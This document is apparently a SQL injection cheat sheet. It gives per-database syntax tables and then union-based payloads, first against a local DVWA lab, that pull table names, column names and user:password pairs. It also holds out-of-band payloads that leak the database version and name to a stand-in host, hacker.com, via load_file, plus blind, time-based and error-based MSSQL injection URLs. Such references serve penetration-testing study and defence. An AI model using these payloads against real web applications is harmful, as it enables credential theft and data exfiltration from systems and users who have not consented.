 #### comments

| syntax | type |
|:---:|:---:|
|```--comment```|*oracle, microsoft, postgresql*|
|```-- comment```|*mysql*|
|```/*comment*/```|*microsoft, postgresql, mysql*|

-----


#### string concatenation

| syntax | type |
|:---:|:---:|
|```'foo'\|\|'bar'```|*oracle, postgresql*|
|```'foo'+'bar'```|*microsoft*|
|```'foo' 'bar'```|*mysql*|
|```CONCAT('foo','bar')```|*mysql*|

-----


#### version

| syntax | type |
|:---:|:---:|
|```SELECT version FROM v$instance```|*oracle*|
|```SELECT banner from v$instance```|*oracle*|
|```SELECT @@version```|*microsoft, mysql*|
|```SELECT version()```|*postgresql*|

-----


#### database contents

| syntax | type |
|:---:|:---:|
|```SELECT * FROM all_tables```|*oracle*|
|```SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'```|*oracle*|
|```SELECT * FROM information_schema.tables```|*microsoft, postgresql, mysql*|
|```SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'```|*microsoft, postgresql, mysql*|

-----


#### conditional errors

| syntax | type |
|:---:|:---:|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual```|*oracle*|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END```|*microsoft*|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END```|*postgresql*|
|```SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')```|*mysql*|

-----


#### time delays

| syntax | type |
|:---:|:---:|
|```dbms_pipe.receive_message(('a'),10)```|*oracle*|
|```WAITFOR DELAY '0:0:10'```|*microsoft*|
|```SELECT pg_sleep(10)```|*postgresql*|
|```SELECT sleep(10)```|*mysql*|

-----


#### union statements

*web app*

```SELECT first_name, last_name FROM users UNION SELECT username, password FROM login;```

*attack: http://localhost:81/dvwa/vulnerabilities/sqli/?id=1%27+UNION+SELECT+1%3B--*

```User ID: 1’ UNION SELECT 1;- -``` *no data different number of columns*

*attack: http://localhost:81/dvwa/vulnerabilities/sqli/?id=1%27+UNION+SELECT+1,2%3B--*

```User ID: 1’ UNION SELECT 1,2;- -``` *returns data (number of columns match)*

-----


#### table/column enumeration

*extract list of tables*

```1' UNION SELECT 1,table_name FROM information_schema.tables;- -```

*extract column names*

```1' UNION SELECT 1,column_name FROM information_schema.columns;- -```

*concat and extract data*

```1' UNION SELECT 1,concat(user,':',password) FROM users;- -```

-----


#### out of band

*database version*

```1’;select load_file(concat('\\\\',version(),'.hacker.com\\s.txt'));```

*database name*

```1’;select load_file(concat('\\\\',database(),'.hacker.com\\s.txt'));```

-----


#### blind queries

*if not 'sa' wait for 10 seconds*

```http://target.com/page.asp?id=1;if+not(select+system_user)+<>+'sa'+waitfor+delay+'0:0:10'--```

-----


#### mssql

*error based, extract user*

```http://target.com/page.asp?id=1 or 1=convert(int,(USER))--```

*union based extract user (use null where data type not known, column number must match)*

```http://target.com/page.asp?id=null UNION SELECT ALL 1,USER,3,4--```

-----
